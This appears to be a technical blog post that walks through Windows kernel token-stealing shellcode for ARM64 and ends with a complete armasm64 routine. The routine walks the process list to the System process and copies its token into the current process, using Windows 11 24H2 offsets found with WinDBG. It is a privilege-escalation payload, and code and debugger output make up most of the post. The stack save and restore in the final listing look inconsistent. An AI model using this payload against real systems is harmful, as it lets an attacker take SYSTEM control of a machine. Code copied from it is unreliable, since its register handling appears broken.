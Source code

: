 ```yaml
---
layout: default
title: "Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive"
date: 2024-12-21 21:00:00 -0000
categories: posts
---
```


# Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive

Token stealing is a common windows kernel shellcode technique. Today, we'll analyze an ARM64 assembly implementation that demonstrates this technique. This is for educational purposes only, and is intended to demonstrate how token stealing can be reimplemented on other architectures.

## The Code Structure

Let's break down the key components:

### Determining Kernel Offsets

Using a WinDBG kernel debugging session, we can determine the offsets for the following structures:

```armasm
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token
```

The KTHREAD and EPROCESS offset can be obtained by disassembling `nt!PsGetCurrentProcess`.

```armasm
0: kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff803`dfee6b70 f944c648 ldr         x8,[xpr,#0x988]
fffff803`dfee6b74 f9405900 ldr         x0,[x8,#0xB0]
fffff803`dfee6b78 d65f03c0 ret
```

The `xpr` register is an alias for `x18`, a platform specific register which points to KPCR in kernel mode as per [https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170](https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170).

The ACTIVEPROCESSLINKS offset is obtained by examining the EPROCESS structure.

```armasm
0: kd> !process 4 0
Searching for Process with Cid == 4
PROCESS ffffe609926a5080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 400aa000  ObjectTable: ffffd30c54229c80  HandleCount: 2819.
    Image: System

0: kd> dt nt!_EPROCESS ffffe609926a5080 ActiveProcessLinks
   +0x1c8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe609`92721248 - 0xfffff803`e09786c0 ]
```

The same process can be used to determine the PID_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 UniqueProcessId
   +0x1c0 UniqueProcessId  : 0x00000000`00000004 Void
```
and TOKEN_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 Token
   +0x238 Token              : _EX_FAST_REF
```

## The Token Stealing Process

### 1. Register Preservation
The code begins by saving the `x0` and `x1` registers to the stack, since we'll be using them later:
```armasm
stp x0, x1, [sp, #-0x20]
stp x2, x3, [sp, #-0x10]
```

### 2. Locating Current Process
```armasm
ldr x0, [xpr, #0x988]    ; Get KTHREAD
ldr x0, [x0, #0xB0]      ; Get EPROCESS
```

This sequence retrieves the current process's EPROCESS structure into `x0`.

### 3. Finding System Process
The code then enters a loop to traverse the process list until it finds the System process (PID 4):
```armasm
find_system:
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system
```

### 4. Token Swapping
Once the System process is found, its token is copied to our current process:
```armasm
ldr x2, [x0, TOKEN_OFFSET]    ; Get System token
str x2, [x1, TOKEN_OFFSET]    ; Set token in our process
```


## Technical Notes

- The code uses ARM64's `stp`/`ldp` instructions for efficient register pairs handling
- The implementation assumes specific Windows kernel structure layouts (Windows 11 24H2)

## The Code

Below is the ARM64 assembly code for the token stealing process in armasm64 syntax.

```armasm
; Constants for Windows kernel offsets
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token

    AREA |.text|,CODE,READONLY
    ALIGN

token_stealing PROC
    ; Save registers
    stp x0, x1, [sp, #-0x20]
    stp x2, x3, [sp, #-0x10]

    ldr x0, [xpr, #0x988]
    ldr x0, [x0, #0xB0]

    mov x1, x0                    ; Save current EPROCESS in x1

    ; System process PID (4)
    mov x2, #4

find_system
    ; Get next process
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS    ; Adjust to get EPROCESS base

    ; Compare PID
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system

    ; Found System process, copy token
    ldr x2, [x0, TOKEN_OFFSET]        ; Get System token
    str x2, [x1, TOKEN_OFFSET]        ; Set token in our process

    ; Restore registers
    ldp x0, x1, [sp, #0x0]
    ldp x2, x3, [sp, #0x10]
    ldp fp,lr,[sp],#0x0
    add sp, sp, #0x30
    ret
    ENDP

    END

```

## Conclusion

This post describes how token stealing can be implemented, and derived, on ARM64, and can serve as a reference on how to implement token stealing on other architectures.

The offsets used in this code are specific to Windows 11 24H2, and may need to be adjusted for other versions of Windows.
